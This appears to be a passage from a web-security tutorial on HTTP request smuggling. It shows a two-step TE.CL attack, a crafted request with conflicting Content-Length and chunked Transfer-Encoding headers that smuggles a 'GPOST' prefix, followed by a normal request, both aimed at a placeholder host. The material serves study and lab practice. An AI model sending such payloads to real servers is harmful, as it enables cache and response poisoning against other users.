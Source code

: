 ![confirm-te-cl-continued](images/confirm-te-cl-continued.png)

#### Poison Back-End

1. Send attack request

```html
POST / HTTP/1.1
Host: vulnerablewebsite.com
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
\r\n
0\r\n
\r\n
```
2. Send normal request
```html
POST / HTTP/1.1
Host: vulnerablewebsite.com
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

foo=bar 


```
